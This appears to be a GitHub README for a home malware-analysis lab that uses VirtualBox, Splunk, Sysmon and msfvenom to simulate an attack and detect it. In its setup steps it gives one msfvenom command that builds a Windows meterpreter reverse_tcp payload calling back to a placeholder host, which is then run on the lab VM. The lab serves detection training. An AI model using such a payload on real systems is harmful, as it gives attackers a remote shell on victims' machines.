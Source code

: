 # Cybersecurity Home Lab: Malware Analysis

This repository documents the setup and execution of a cybersecurity home lab designed to simulate and analyze malware activity in a controlled environment. The lab utilizes VirtualBox, Splunk, Sysmon, and msfvenom to demonstrate malware creation, detection, and analysis.

## Overview

The home lab is a self-contained environment built to:

- Simulate real-world cyberattacks.
- Analyze malicious activity using monitoring tools.
- Gain hands-on experience in threat detection and endpoint security.

## Features

- **Virtualized Environment**: Created isolated Windows and Linux virtual machines using VirtualBox.
- **Threat Simulation**: Developed custom malware using msfvenom on the Linux machine.
- **Monitoring and Analysis**: Configured Splunk and Sysmon on the Windows machine to detect and analyze system events and malicious activity.
- **Command Execution**: Simulated a successful breach and analyzed command execution on the Windows machine.

## Tools and Technologies

- **VirtualBox**: Used to set up and manage the virtual machines.
- **Windows Virtual Machine**: Hosted Splunk and Sysmon for event monitoring.
- **Linux Virtual Machine**: Used for creating malware with msfvenom.
- **Splunk**: Enabled real-time analysis of logs and system activities.
- **Sysmon**: Provided detailed logs of system events for analysis.
- **msfvenom**: Created custom malware payloads for attack simulations.

## Setup Instructions

1. **Install VirtualBox**

- Download and install [VirtualBox](https://www.virtualbox.org/)
- Create two virtual machines (Windows and Linux)

2. **Configure the Windows Machine**

- Install [Splunk](https://www.splunk.com/) and set up an instance
- Install and configure [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

3. **Set up Linux Machine**

- Install necessary dependencies for msfvenom
- Create a custom malware payload using msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > malware.exe`

4. **Simulate the Attack**

- Transfer the malware payload from the Linux machine to the Windows machine
- Execute the malware on the Windows machine

5. **Monitor and Analyze**

- Use Splunk to monitor logs and detect the malicious activity
- Analyze system events recorded by Sysmon

## Learning Outcomes

- Practical experience with endpoint monitoring and detection tools.
- Understanding of malware creation and behavior.
- Hands-on knowledge of setting up and using Splunk and Sysmon for security analysis.
- Skills in managing virtualized environments for cybersecurity simulations.
